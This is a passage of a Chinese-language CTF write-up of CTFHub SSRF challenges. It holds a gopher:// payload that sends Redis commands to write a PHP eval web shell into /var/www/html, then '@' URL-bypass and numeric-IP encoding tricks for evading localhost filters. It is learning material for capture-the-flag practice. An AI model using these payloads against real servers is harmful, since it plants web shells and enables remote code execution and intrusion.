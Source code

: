 > 
Payload


```
http://challenge-4729e7001fe71c25.sandbox.ctfhub.com:10800/?url=gopher%3A//127.0.0.1%3A6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252435%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255B%2522whoami%2522%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A

```

### 第三部分（Bypass）

#### URL Bypass

> 
题目描述：请求的URL中必须包含http://notfound.ctfhub.com，来尝试利用URL的一些特殊地方绕过这个限制吧


> 
题目说url必须以 `http://notfound.ctfhub.com` 开头，我们可以利用`@`来绕过，如 `http://whoami@127.0.0.1`实际上是以用户名 `whoami` 连接到站点`127.0.0.1`，即 `http://notfound.ctfhub.com@127.0.0.1`与 `http://127.0.0.1`请求是相同的，该请求得到的内容都是`127.0.0.1`的内容


> 
Payload


```
http://challenge-c47ec8d53b1d2c1b.sandbox.ctfhub.com:10800/?url=http://notfound.ctfhub.com@127.0.0.1/flag.php

```

#### 数字IP Bypass

> 
题目描述：这次ban掉了127以及172，不能使用点分十进制的IP了，但是又要访问127.0.0.1，该怎么办呢


> 



```
&lt;?php
$ip = '127.0.0.1';
$ip = explode('.',$ip);
$r = ($ip[0] &lt;&lt; 24) | ($ip[1] &lt;&lt; 16) | ($ip[2] &lt;&lt; 8) | $ip[3] ;
if($r &lt; 0) {
$r += 4294967296;
}
echo "十进制:";
echo $r;
echo "八进制:";
echo decoct($r);
echo "十六进制:";
echo dechex($r);
?&gt;

```
